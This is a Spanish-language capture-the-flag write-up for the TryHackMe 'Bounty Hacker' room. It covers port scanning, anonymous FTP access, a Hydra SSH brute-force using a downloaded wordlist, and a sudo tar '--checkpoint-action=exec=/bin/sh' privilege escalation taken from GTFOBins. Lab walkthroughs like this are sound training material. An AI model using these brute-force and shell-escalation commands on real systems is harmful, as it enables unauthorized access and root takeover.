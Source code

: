 ```yaml
---
layout: post
author: Temerio
---
```

![Bounty Hacker](https://i.imgur.com/qodkcem.jpg)
*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

Puedes encontrar la Room [aquí](https://tryhackme.com/room/cowboyhacker) 

## Reconnaissance

```bash
┌──(temerio㉿Hackademy)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 -Pn 10.10.107.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 16:38 EDT
Nmap scan report for 10.10.107.126
Host is up (0.27s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```
Vemos 3 puertos abiertos y nos conectamos al sitio web(Port 80)
![WebPage](https://i.imgur.com/swkGsAb.png?1)
Al no encontrar nada probamos con el siguiente puerto FTP (Port 21) e intentamos loguearnos como "Anonymous".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ftp 10.10.107.126    
Connected to 10.10.107.126.
220 (vsFTPd 3.0.3)
Name (10.10.107.126:temerio): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Al dejarnos ingresar procedemos a listar el contenido.
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
El File Transfer Protocol (FTP) contiene 2 archivos llamados:
*locks.txt
*task.txt

Procedemos a descargarlo mediante el comando "get".
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.5071 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (535.5343 kB/s)
```
Una vez descargados los archivos procedemos a visualizarlo en nuestra terminal mediante el comando "cat".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Podemos visualizar un nombre en este archivo llamado "lin" este nos puede servir más adelante, continuemos con el siguiente archivo.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat locks.txt       
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Todo esto se parece a un diccionario de fuerza bruta, usaremos 'Hydra' para intentar acceder al sistema.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ hydra -l lin -P /home/temerio/Desktop/Thm/BountyHacker/locks.txt 10.10.107.126 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-28 18:53:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.107.126:22/
[22][ssh] host: 10.10.107.126   login: lin   password: (Pass)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-28 18:53:56
```
Mediante Hydra logramos conseguir la contraseña para loguearnos por SSH (Port 22).
Procedemos a conectarnos a la PC de lin:
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ssh lin@10.10.107.126                                                                  
The authenticity of host '10.10.107.126 (10.10.107.126)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.107.126' (ECDSA) to the list of known hosts.
lin@10.10.107.126's password: (UsarPass)
```
```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ whoami
lin
lin@bountyhacker:~/Desktop$ 

```
Logramos ingresar con exito, estamos en la Pc de lin, ahora debemos ver que archivos tiene.
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
```
Encontramos la Flag del USER.
```bash
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{Password}
```
Lo que ahora queda es encontrar una manera de escalar nuestros privilegios para convertirnos en root y eventualmente conseguir la flag de root.
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ahora sabemos que el usuario lin tiene permiso para ejecutar **/bin/tar** como root, esto podría ser de gran ayuda para escalar privilegios.

Mi primer lugar es ir siempre a https://gtfobins.github.io/ para buscar posibles comandos para escalar privilegios mediante un binario específico con permisos especiales.
![GTFObins](https://imgur.com/E6CUX9H)
Busque **tar** en la barra de búsqueda y haga clic en la misma, desplácese hacia abajo hasta SUDO.
![GTFObinsudo](https://imgur.com/Zu8aHVo)

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
